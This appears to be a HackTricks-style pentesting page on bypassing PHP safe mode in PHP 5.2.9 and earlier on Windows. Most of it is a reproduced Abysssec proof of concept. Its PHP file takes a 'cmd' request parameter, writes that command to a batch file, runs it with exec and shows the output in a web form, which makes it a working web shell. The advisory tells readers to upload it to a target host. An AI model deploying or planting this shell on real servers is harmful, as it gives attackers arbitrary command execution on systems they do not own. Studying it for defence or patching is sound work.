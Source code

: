 {{#include ../../../../banners/hacktricks-training.md}}

# PHP &lt;= 5.2.9 on windows

From [http://blog.safebuff.com/2016/05/06/disable-functions-bypass/](http://blog.safebuff.com/2016/05/06/disable-functions-bypass/)

{{#tabs}}
{{#tab name="exploit.php"}}

```php
<?php
//cmd.php
/*
	Abysssec Inc Public Advisory

	Here is another safemod bypass vulnerability exist in php <= 5.2.9 on windows .
	the problem comes from OS behavior - implement  and interfacing between php
	and operation systems directory structure . the problem is php won't tell difference
	between directory browsing in linux and windows this can lead attacker to ability
	execute his / her commands on targert machie even in SafeMod On  (php.ini setting) .
	=============================================================================
	in linux when you want open a directory for example php directory you need
	to go to /usr/bin/php and you can't use \usr\bin\php . but windows won't tell
	diffence between slash and back slash it means there is no didffrence  between
	c:\php and c:/php , and this is not vulnerability but itself but  because of this  simple
	php implement "\" character can escape safemode using  function like excec .
	here is a PoC for discussed vulnerability . just upload files on your target host and execute
	your commands .
	==============================================================================
	note : this vulnerabities is just for educational purpose and author will be not be responsible
	for any damage using this vulnerabilty.
	==============================================================================
	for more information visit Abysssec.com
	feel free to contact me at admin [at] abysssec.com
*/
	$cmd = $_REQUEST['cmd'];
	if ($cmd){
	$batch = fopen ("cmd.bat","w");
	fwrite($batch,"$cmd>abysssec.txt"."\r\n");
	fwrite($batch,"exit");
	fclose($batch);
	exec("\start cmd.bat");
	echo "<center>";
	echo "<h1>Abysssec.com PHP <= 5.2.9 SafeMod Bypasser</h1>";
	echo "<textarea rows=20 cols=60>";
	require("abysssec.txt");
	echo "</textarea>";
	echo "</center>";
	}
?>

<html>
<body bgcolor=#000000 and text=#DO0000>
<center>
<form method=post>
<input type=text name=cmd >
<input type=submit value=bypass>
</form>
</center>
</body>
</html>
```

{{#endtab}}

{{#tab name="cmd.bat"}}

```
dir > abyss.txt
exit
```

{{#endtab}}
{{#endtabs}}

{{#include ../../../../banners/hacktricks-training.md}}
